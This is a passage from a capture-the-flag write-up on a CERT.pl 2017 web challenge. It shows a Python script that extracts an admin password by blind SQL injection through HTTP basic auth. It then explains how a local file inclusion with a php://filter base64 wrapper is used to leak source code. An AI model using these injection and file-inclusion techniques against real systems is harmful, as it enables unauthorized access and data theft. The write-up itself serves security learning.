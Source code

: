     url = "http://ecsm2017.cert.pl:6044/index.php/instructions"#php://filter/convert.base64-encode/resource=instructions"
    print string.printable
    headers = {'X-Forwarded-For':'175.45.176.110'}
    pwd = ""
    bulk = ""

    while True:
    	for i in string.printable:
    		if i == '%' or i == "'" or i == ':' or i=="_":
    			continue
    		user = "admin' and password like '"+bulk+i+"%'-- "
    		pwd = bulk
    		res = requests.get(url, headers=headers, auth=(user, pwd))
    		if "WWW-Authenticate" not in res.headers:
    			print res.headers
    			print res.content
    			break
    		elif "WRONG PASSWORD" in res.headers["WWW-Authenticate"]:
    			bulk += i
    			print bulk
    			break


    res = requests.get(url, headers=headers, auth=(user, pwd))
    print res.headers
    print res.content

[/code]

With such simple script we can retrieve the password which is set to 'to-nawet-nie-jest-hash' but it did not work when we pass it as a password. Hmm - we need another approach.

I was a bit stuck here but then started to play around with the urls and noticed that there's another issue. If we pass a random string as the last part of the url

> <http://ecsm2017.cert.pl:6044/index.php/test>

we will see a PHP errors from failing to open `test.php` file.

> Warning: include(test.php): failed to open stream: No such file or directory in /var/www/html/index.php on line 30

> Warning: include(): Failed opening 'test.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 30

We learn a valuable info from this one. It looks like home & instructions are php files laying on the disk which we read and include.

We could pass index there to read the contents but it will be for nothing as the PHP code would get executed and rendered not as code. We need to make sure file is encoded before send to the output. And there's a way to do that.

That's probably the first think people learn about PHP but there are some clever means to wrap the input/output before it gets rendered. One of them is base64 encoder. If we run our PHP code through it it wont get preprocessed and we would get a base64 string of the actual code. In this case it is as easily said and done - it's enough to pass this as a part of the url and the code is ours:
